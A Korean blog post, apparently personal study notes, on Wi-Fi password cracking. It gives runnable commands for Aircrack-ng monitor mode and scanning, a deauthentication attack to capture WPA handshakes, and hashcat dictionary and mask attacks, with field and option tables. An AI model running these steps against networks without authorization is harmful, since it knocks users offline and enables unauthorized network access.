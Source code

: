 ```yaml
---
layout: post
title: Aircrack-ng
subtitle: 무선AP 해킹
author: 마준영
categories: etc
tags:
  - Aircrack-ng
---
```

# Aircrack
```shell
iwconfig #랜카드 이름 확인
airmon-ng start wlan0 #monitor모드 실행, wlan0은 랜카드 이름
airodump-ng wlan0 #스캔 실행
iw list | grep -A 10 Frequencies #랜카드가 주파수 대역이 되는지 확인 Frequencies에서 확인가능
airodump-ng wlan0 --channel 36 #특정 5GHz 채널만 스캔
airodump-ng wlan0 --band a #`--band a` : 5GHz 대역
airodump-ng wlan0 --band abg #`--band abg` : 2.4GHz + 5GHz 전체
airodump-ng wlan0 --band bg #`--band bg` : 2.4GHz전체
airodump-ng wlan0 --band a -w [파일명] #파일로 저장
airodump-ng -c 11 --bssid [공유기 맥주소] -w [저장될 파일명] wlan0 #타겟을 정한 후 채널을 고정하여 스캔하며 대기
aireplay-ng --deauth 10 -a [공유기 맥주소] -c [클라이언트 맥주소] wlan0 #클라이언트의 연결을 강제 종료, 재연결되면 handshake 패킷을 딸 수 있다. deauth는  try횟수
aircrack-ng [캡처파일].cap -w [워드리스트] #사전공격
```

사용예시
![](/assets/images/posts/2025-03-26-aircrack/bea8c9475a9856ca2c6d5ff48d3082dc_MD5.jpeg)
## 🛰️ 상단: AP (Access Point) 정보 테이블

| 항목명            | 의미                                           |
| -------------- | -------------------------------------------- |
| **BSSID**      | AP의 MAC 주소 (무선 공유기의 고유 식별자)                  |
| **PWR**        | 수신 신호 세기 (Power) - 숫자가 작을수록(0에 가까울수록) 신호가 강함 |
| **Beacons**    | 일정 간격으로 AP가 송신하는 비콘 패킷의 수                    |
| **#Data, #/s** | 데이터 패킷 수 및 초당 전송 속도                          |
| **CH**         | 채널 번호 (해당 AP가 사용하는 Wi-Fi 채널)                 |
| **MB**         | 최대 전송 속도 (Mbps)                              |
| **ENC**        | 암호화 방식 (Encryption: WPA2, WPA3 등)            |
| **CIPHER**     | 암호화에 사용되는 알고리즘 (예: CCMP, TKIP)               |
| **AUTH**       | 인증 방식 (예: PSK = Pre-shared Key, SAE 등)       |
| **ESSID**      | 네트워크 이름 (Wi-Fi SSID)                         |

## 📱 하단: 클라이언트(기기) 정보 테이블

|항목명|의미|
|---|---|
|**BSSID**|연결된 AP의 MAC 주소 (또는 Probe 중인 경우 NULL)|
|**STATION**|클라이언트(기기)의 MAC 주소|
|**PWR**|수신 신호 세기 (기기로부터 수신된 신호의 강도)|
|**Rate**|송수신 속도 (예: 6e-0은 6 Mbps)|
|**Lost**|손실된 패킷 수|
|**Frames**|수신된 프레임 수|
|**Notes**|기타 정보|
|**Probes**|클라이언트가 탐색 중인 SSID (연결하고자 하는 Wi-Fi 이름)|

PSK : Presharedkey, 인데 wifi가 미리 공유된 key값을 이용해서 크랙이 일반적임

SAE,MGT : 찾아보기

WEP, WAP, WAP2, WAP3
OPN

스캔할 층 4,6,7,19,25

Handshake 성공시 
![](/assets/images/posts/2025-03-26-aircrack/a04bfe866a566f081c5ff93c3e601a75_MD5.jpeg)

Crack 성공시
![](/assets/images/posts/2025-03-26-aircrack/a7623d10a8117b57a88d3995f81f0be8_MD5.jpeg)

# hashcat으로 크랙
딕셔너리 기반은 현실적이지 않은 것 같다.
hashcat으로 해보자.
```shell
aircrack-ng [파일이름].cap -J [출력파일명] #hasndshake가 있는 cap파일을 hashcat용으로 변환
hashcat -m 2500 -a 0 handshake.hccapx /usr/share/wordlists/rockyou.txt #안된다
```
- `-m 2500` → WPA/WPA2 (hccapx 포맷)
    
- `-a 0` → 사전(dictionary) 공격
    
- `handshake.hccapx` → 대상 해시 파일
    
- `/usr/share/wordlists/rockyou.txt` → 워드리스트 경로

뭔가 .cap에서 hashcat용으로 변환할때 문제가 있었던 것 같다.
전용 툴을 이용해서 변환해보자.
```shell
hcxpcapngtool -o [만드려는 파일명].hccapx [cap파일].pcapng #특이하게 원본 파일명이 뒤에옴
hcxpcapngtool -o home-01.22000 home-01.cap #확장자는 hccapx든 22000이든 상관 없는듯
hashcat -m 2500 -a 0 handshake.hccapx /usr/share/wordlists/rockyou.txt #만든 파일로 워드리스트 크랙하기, 2500은 구버전이라 안되는거같다. 22000으로 하는게 좋을듯
hashcat -m 22000 -a 3 home-01.22000 ?u?u?u?u?d?d?d?d #마스크공격 예시
```

| 옵션         | 의미                                          |
| ---------- | ------------------------------------------- |
| `-m 0`     | MD5                                         |
| `-m 100`   | SHA1                                        |
| `-m 22000` | **WPA/WPA2 (EAPOL + PMKID)** 👉 우리가 지금 쓰는 거 |
| `-m 2500`  | WPA/WPA2 (구버전 hccapx, 현재는 deprecated)       |
| `-m 3000`  | LM (Windows old password hash)              |
| `-m 1000`  | NTLM (Windows 로그인 해시)                       |

| 옵션     | 공격 방식                     | 설명                   |
| ------ | ------------------------- | -------------------- |
| `-a 0` | **Wordlist (Dictionary)** | 워드리스트에 있는 단어들로 대입 공격 |
| `-a 1` | Combination               | 두 워드리스트를 조합해서 시도     |
| `-a 3` | **Brute-force (마스크 공격)**  | 직접 문자 조합을 정의해서 전수조사  |
| `-a 6` | Hybrid Wordlist + Mask    | 단어 + 마스크 조합          |
| `-a 7` | Hybrid Mask + Wordlist    | 마스크 + 단어 조합          |

Hashcat은 GPU
![](/assets/images/posts/2025-03-26-aircrack/b2a7f50f00c6af8e529d2ec1cd1a9018_MD5.jpeg)

## 이 GPU는 어떤 성능이야?

|항목|내용|
|---|---|
|GPU 종류|**내장 그래픽** (iGPU)|
|성능 수준|엔트리급 (게이밍/병렬처리 성능 낮음)|
|OpenCL 지원|**있긴 하지만 매우 제한적**|
|해시 처리 성능|약 **2~10k H/s (초당 수천 해시)** 수준|

---

## 🎯 해시캐팅 속도 예시

`hashcat -m 22000 -a 3 ?u?u?u?u?d?d?d?d`  
(앞 4자리 대문자 + 뒤 4자리 숫자 = 약 4.56억 조합)